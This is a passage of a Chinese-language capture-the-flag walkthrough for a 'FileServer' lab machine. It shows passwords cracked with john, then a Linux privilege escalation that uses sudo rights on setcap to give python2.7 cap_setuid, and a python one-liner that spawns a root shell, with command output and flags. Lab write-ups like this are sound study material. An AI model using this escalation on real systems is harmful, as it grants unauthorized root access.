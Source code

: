 使用 john 进行破解，看是否能获得明文密码：

```
password         (smbuser)
itiseasy         (bla)
infosec          (root)
```

直接提权到 root 可以直接 su 输入 infosec

su 切换到 bla 用户, 发现 user flag：

```
[bla@fileserver ~]$ cat user.txt
  _____ _ _      ____                                     _____
 |  ___(_) | ___/ ___|  ___ _ ____   _____ _ __          |___ /
 | |_  | | |/ _ \___ \ / _ \ '__\ \ / / _ \ '__|  _____    |_ \
 |  _| | | |  __/___) |  __/ |   \ V /  __/ |    |_____|  ___) |
 |_|   |_|_|\___|____/ \___|_|    \_/ \___|_|            |____/

Flag : 0aab4a2c6d75db7ca2542e0dacc3a30f

you can crack this hash, because it is also my pasword

note: crack it, itiseasy

```

sudo -l 发现：

```
(ALL) NOPASSWD: /usr/sbin/capsh, (ALL) /usr/sbin/setcap
```

可以利用 setcap 设置相关权限，达到提权的目的：

```
sudo setcap 'cap_setuid+ep' /usr/bin/python2.7

python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

得到了 root 权限：

```
[bla@fileserver ~]$ getcap /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep
[bla@fileserver ~]$ python -c "import os; os.setuid(0); os.system('/bin/sh')"
sh-4.2# id
uid=0(root) gid=1001(bla) 组=0(root),1001(bla)
sh-4.2# cd /root
sh-4.2# ls
proof.txt
sh-4.2# cat proof.txt
    _______ __    _____                                       _____
   / ____(_) /__ / ___/___  ______   _____  _____            |__  /
  / /_  / / / _ \\__ \/ _ \/ ___/ | / / _ \/ ___/  ______     /_ <
 / __/ / / /  __/__/ /  __/ /   | |/ /  __/ /     /_____/   ___/ /
/_/   /_/_/\___/____/\___/_/    |___/\___/_/               /____/


flag : 7be300997079eaebcdf9975ede6746e9
```
